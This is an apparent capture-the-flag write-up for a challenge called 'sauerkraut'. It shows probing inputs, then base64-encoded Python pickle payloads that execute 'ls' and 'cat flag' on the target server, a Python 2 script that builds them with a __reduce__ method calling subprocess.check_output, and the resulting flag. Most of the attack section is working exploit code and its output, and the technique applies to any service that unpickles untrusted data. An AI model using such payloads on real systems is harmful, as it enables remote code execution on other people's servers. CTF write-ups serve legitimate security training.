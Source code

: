 # sauerkraut

## Challenge

## Solution

```
Input:
hello world

Output:
Incorrect padding
```

```
Input:
AAAA

Output:
invalid load key, '\x00'.
```

```
Input:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCihTJ2xzJwpwMgp0cDMKUnA0Ci4=

Output:
b'app\nflag\ngunicorn_config.py\nrequirements.txt\n
```

Input:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigobHAyClMnY2F0JwpwMwphUydmbGFnJwpwNAphdFJwNQou

Output:
b'SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}\n'
```

## Exploit

```py
#!/usr/bin/env python2

import cPickle
import subprocess
import base64

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, ('ls', ))

print "ls:"
print base64.b64encode(cPickle.dumps(Exploit()))

print ""

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, (['cat','flag'], ))

print "cat flag:"
print base64.b64encode(cPickle.dumps(Exploit()))
```

```
ls:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCihTJ2xzJwpwMgp0cDMKUnA0Ci4=

cat flag:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigobHAyClMnY2F0JwpwMwphUydmbGFnJwpwNAphdFJwNQou
```

## Flag

`SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}`


